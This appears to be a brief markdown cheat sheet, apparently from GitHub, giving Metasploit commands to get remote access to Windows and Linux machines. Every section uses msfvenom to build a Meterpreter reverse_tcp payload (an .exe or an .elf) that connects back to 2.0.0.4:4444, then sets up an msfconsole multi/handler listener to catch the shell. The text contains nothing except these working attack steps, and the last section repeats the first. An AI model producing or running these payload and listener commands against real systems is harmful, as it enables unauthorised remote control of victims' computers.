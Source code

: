 ## For windows access from kali 
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=2.0.0.4 LPORT=4444 -f exe -o payload.exe

msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 2.0.0.4
set LPORT 4444
exploit
```

## For linux access from kali
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=2.0.0.4 LPORT=4444 -f elf -o payload.elf

msfconsole

use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 2.0.0.4
set LPORT 4444
exploit
```

## For windows access from windows
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=2.0.0.4 LPORT=4444 -f exe -o payload.exe

msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 2.0.0.4
set LPORT 4444  
exploit
``` 

